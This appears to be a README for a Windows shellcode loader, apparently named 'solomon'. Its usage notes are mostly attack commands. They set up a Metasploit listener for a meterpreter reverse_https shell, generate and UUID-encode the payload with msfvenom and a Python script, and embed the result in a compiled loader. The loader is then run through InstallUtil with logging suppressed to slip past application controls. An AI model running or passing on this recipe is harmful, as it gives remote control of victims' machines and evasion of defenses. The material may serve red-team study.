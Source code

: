 ```msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"```

```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin```

```python3 payload_uuid.py -p shell.bin > shell.txt```

In notepad++ Ctrl+h in Replace tab add in Find what field ```^(.*)$``` and in Replace with field ```"\1",```
Remove from the last line the comma.
<br>
<br>
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)
<br>
<br>
Add the final shellcode to the "Shellcode" variable.
Compile as Release .
<br>
<br>
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)
<br>
<br>
In order to run the loader with installutil:

``` C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false .\solomon.exe```
